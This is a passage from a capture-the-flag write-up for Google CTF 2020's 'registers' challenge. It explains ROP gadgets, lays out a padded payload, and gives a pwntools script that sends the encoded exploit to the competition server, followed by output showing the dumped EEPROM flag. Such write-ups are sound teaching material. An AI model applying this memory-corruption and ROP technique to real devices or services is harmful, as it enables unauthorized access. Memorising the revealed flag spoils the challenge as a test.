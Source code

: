 ```
I|208093,000834,1DBA,80,92,00,00,00,00,00,BB,1D,00,00,00,00,00,02,AC,02,E2,1D,03,00,E2,1D,00,02,57,00,00,02,BA,1D,92,00,1A065B$
```

`CCE` instruction moves instruction `gp28 => gp24`. Then `CD0` and `CD2` pops `gp29` and `gp28` from the stack. Finally, gadget returns at 0xCD8 without overwriting crucial registers.

### 4. Joining everything together

Using gadgets found before we have constructed a payload:
```
2\n            # 'magic' function
1\n            # first value
BBBBBB         # padding
\x00\x01       # sector count: 1
\x00\x06\x62   # 0x662 * 2 => 0xCC4
\x00\x00       # starting sector: 0
AA             # padding
\x00\x02\x33\n # 0x233 * 2 => 0x466
```

Finally, we've joined everything together and wrote a simple script that encoded our exploit and decoded the resulting output from server:

```python
from pwn import *

def read_line(r):
    writes = r.readuntil("@W0A")
    print(''.join([chr(int(c if c else "00", 16)) for c in writes.split("@W")]))

def writestr(r, s):
    r.sendline(''.join("@W%02X" % ord(c) for c in s))
    
r = remote("registers.2020.ctfcompetition.com", 1337)
# Enter the challenge mode
r.recvuntil("&M")
r.sendline("&C")
# Write input
writestr(r, '2\n1\nBBBBBB\x00\x01\x00\x06\x62\x00\x00AA\x00\x02\x33\n')
# Read output
for i in range(8):
    read_line(r)
```

After executing the exploit, we've successfully dumped first EEPROM sector getting a flag!

```
[+] Opening connection to registers.2020.ctfcompetition.com on port 1337: Done
\x00enu:

\x00. Read from EEPROM

\x00. Magic function

\x00. Exit

\x00hoice (do not enter more than 5 chars): Enter Magic component number A and then B:

\x00== EEPROM dump (0x00 - 0x80) ===

\x00000: 43 54 46 7B 72 33 36 31  35 37 33 72 35 39 30 37  |  CTF{r361573r5907

\x00010: 33 37 37 33 72 7D 00 00  00 00 00 00 00 00 00 00  |  3773r}..........
```

Dumped flag: `CTF{r361573r59073773r}`. 
